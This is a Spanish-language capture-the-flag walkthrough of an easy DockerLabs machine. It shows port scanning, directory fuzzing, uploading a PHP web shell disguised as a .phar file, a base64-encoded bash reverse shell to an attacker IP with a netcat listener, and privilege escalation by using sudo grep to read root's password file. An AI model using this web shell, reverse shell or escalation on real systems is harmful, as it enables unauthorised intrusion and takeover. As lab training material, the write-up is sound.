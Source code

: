 Maquina: DockerLabs

Autor: El Pinguino de Mario

Dificultad: Facil

ping 172.17.0.2 -c 1

sudo nmap -p- --open -sCV --min-rate 5000 -sS -Pn -n 172.17.0.2 -vvv

Accederemos a la página web

172.17.0.2

Aplicar Fuzzing para descubrir rutas y archivos con extensiones

gobuster dirb -t 150 -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt

Accedemos al archivo machine.php y descubrimos una página web que permite la subida de archivos

Intentamos subir un archivo que contenga código PHP para ejecutar comandos a nivel del sistema

Creamos un archivo llamado pwned.phar que incluye el siguiente código, lo cual nos permite ejecutar comandos del sistema al enviar un parámetro llamado cmd

<?php
    system($_GET'cmd');
?>

Subimos el archivo .phar y confirmaremos que se ha cargado correctamente

172.17.0.2/upload.php

si cargamos el archivo .phar y enviamos comandos a través del parámetro cmd, podremos ejecutar dichos comandos

Ahora, necesitamos enviar una shell inversa a nuestra máquina atacante

Primero, convertimos la shell inversa a Base64 utilizando el siguiente comando:

echo "sh -i >& /dev/tcp/172.16.1.131/4444 0>&1" | base64

Esto nos da el siguiente resultado: c2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE2LjEuMTMxLzQ0NDQgMD4mMQo=

En nuestra máquina atacante, nos ponemos a la escucha con Netcat en el puerto 4444 utilizando el siguiente comando:

nc -nvlp 4444

Luego, en el parámetro cmd, enviamos el siguiente comando:

echo "c2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE2LjEuMTMxLzQ0NDQgMD4mMQo=" | base64 -d | bash

Al ejecutar esto, obtendremos una shell inversa en nuestra máquina atacante. Así, estaremos dentro del sistema

Tratamiento de la TTY

Una vez estemos dentro ejecutamos el siguiente comando: script /dev/null -c bash

Luego presionamos: Ctrl + Z para suspender el proceso

A continuación, escribimos: stty raw -echo; fg

Despues ingresamos: reset

Cuando se nos pregunte: "Terminal type?" Ingresamos xterm.

Finalmente, exportamos las siguientes variables de entorno: export TERM=xterm export SHELL=bash

Al ejecutar sudo -l, veremos que podemos ejecutar los binarios /usr/bin/cut y /usr/bin/grep como usuario root sin necesidad de proporcionar una contraseña

Si realizamos una búsqueda de archivos .txt en el sistema utilizando el comando:

find / *.txt 2>/dev/null

veremos que hay un archivo en /opt/ llamado nota.txt

Al revisar el contenido de ese archivo, encontramos el siguiente mensaje:

Protege la clave de root, se encuentra en su directorio /root/clave.txt. Menos mal que nadie tiene permisos para acceder a ella

tenemos permisos para ejecutar los binarios grep y cut. Aprovecharemos estos permisos para leer el archivo /root/clave.txt de la siguiente manera:

sudo /usr/bin/grep '' /root/clave.txt

Leemos el archivo, encontramos una posible contraseña: dockerlabsmolamogollon123.

Cambiamos al usuario root y utilizamos la contraseña encontrada

whoami
